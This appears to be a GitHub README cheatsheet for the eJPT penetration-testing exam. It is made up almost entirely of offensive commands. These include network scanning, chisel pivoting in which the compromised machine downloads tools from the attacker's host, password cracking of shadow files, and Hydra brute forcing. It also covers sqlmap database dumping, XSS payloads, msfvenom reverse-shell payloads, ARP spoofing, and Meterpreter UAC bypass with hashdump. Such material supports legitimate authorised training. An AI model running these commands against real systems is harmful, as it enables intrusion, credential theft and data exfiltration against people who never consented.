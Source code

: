 # eJPT-Cheatsheet

## fPing
```sh
fping -a -g x.x.x.x/24 2>/dev/null > targets
```
## Nmap
```sh
nmap -sn x.x.x.x/24
nmap -sV -p- -iL targets -oN nmap.initial -v
nmap -A -p- -iL targets -oN nmap.aggressive -v
nmap -p<port> --script=vuln -v <target-IP>
```

**Custom nmap scan (Not from the course)**
```sh
nmap -p- -sS --open -T4 -n -Pn -iL targets -oN alltargetports
nmap -sCV -p<ports> -Pn -vvv <ip-to-scan> -oN portversion
```

## IP Route
```sh
ip route add <Network-range> via <router-IP> dev <interface>
```
## Pivoting without Metasploit
**For this I will use chisel tool**\
**Pass chisel to the machine to pivot**\
**1. Attacker** 
```sh
python -m SimpleHTTPServer xxxx
nc -lvp xxxx
```
**2. Machine to pivot** 
```sh
wget <attacker-ip>:<port>/chisel
```
**Pivoting configuration**\
**3. Attacker machine**
```sh
./chisel server --reverse -p xxxx
```
**4. Machine to pivot**
```sh
./chisel client \<attacker-ip\> 127.0.0.1:xxxx:\<target-ip\>:xxxx
```
## John
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

## dirb
```sh
dirb http://x.x.x.x/
dirb http://x.x.x.x/dir -u admin:admin
```
*Faster using dirbuster. Threads at 20 and use /usr/share/wordlists/dirb/common.txt wordlist. Larger wordlists are not worth it for the exam*

## Netcat
**Listening for reverse shell**
```sh
nc -lvp 1234
```
**Banner Grabbing**
```sh
nc -nv x.x.x.x <port>
```
## SQLMap
#### Check if injection exists
```sh
sqlmap -r Post.req
sqlmap -u "http://x.x.x.x/file.php?id=1" -p id
sqlmap -u "http://x.x.x.x/login.php" --data="user=admin&password=admin"
```
#### Get database if injection Exists
```sh
sqlmap -r login.req --dbs
sqlmap -u "http://x.x.x.x/file.php?id=1" -p id --dbs
sqlmap -u "http://x.x.x.x/login.php" --data="user=admin&password=admin" --dbs
```
#### Get Tables in a Database
```sh
sqlmap -r login.req -D dbname --tables
sqlmap -u "http://x.x.x.x/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://x.x.x.x/login.php" --data="user=admin&password=admin" -D dbname --tables
```
#### Get data in a Database tables
```sh
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://x.x.x.x/file.php?id=1" -p id -D dbname -T table_name --dump
sqlmap -u "http://x.x.x.x/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump
```
## Hydra
**SSH Login Bruteforcing**
```sh
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u x.x.x.x ssh
hydra -v -V -u -l root -P passwords.txt -t 1 -u x.x.x.x ssh
```
*Replace ssh for other services when needed*

**HTTP POST Form**
```sh
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V
```

## XSS
```sh
<script>alert(1)<script>
<ScRiPt>alert(1)<ScRiPt>
```
*XSS filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```
**WAR**
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
**PHP**
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
**PHP non meterpreter**
```sh
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
## Metasploit Meterpreter autoroute
```sh
run autoroute -s x.x.x.x/24
```
## ARPSpoof
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t x.x.x.x -r x.x.x.x
```
## SMB Enumeration
**Get shares, users, groups, password policy**
```sh
smbclient -L //x.x.x.x/
enum4linux -U -M -S -P -G x.x.x.x
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains x.x.x.x -p 135,139,445 -v
nmap -p445 --script=smb-vuln-* x.x.x.x -v
```
**Access Share**
```sh
smbclient //x.x.x.x/share_name
```
## FTP Enumeration
```sh
nmap --script=ftp-anon x.x.x.x -p21 -v
nmap -A -p21 x.x.x.x -v
```
**Login to FTP server**
```sh
ftp x.x.x.x
```
**Login to FTP server no common port**
```sh
ftp x.x.x.x xxxx
```
## Meterpreter
```sh
ps
getuid
getpid
getsystem
ps -U SYSTEM
```
**CHECK UAC/Privileges**
```sh
run post/windows/gather/win_privs
```
**BYPASS UAC**
```sh
*Background the session first*
exploit/windows/local/bypassuac
set session
```
**After PrivEsc**
```sh
migrate <pid>
hashdump
```
## Windows Command Line
**Search for a file starting from current directory**
```sh
dir /b/s "\*.conf\*"
dir /b/s "\*.txt\*"
dir /b/s "\*filename\*"
```
**Routing table**
```sh
route print
netstat -r
```
**Check Users**
```sh
net users
```
**List drives on the machine**
```sh
wmic logicaldisk get Caption,Description,providername
```

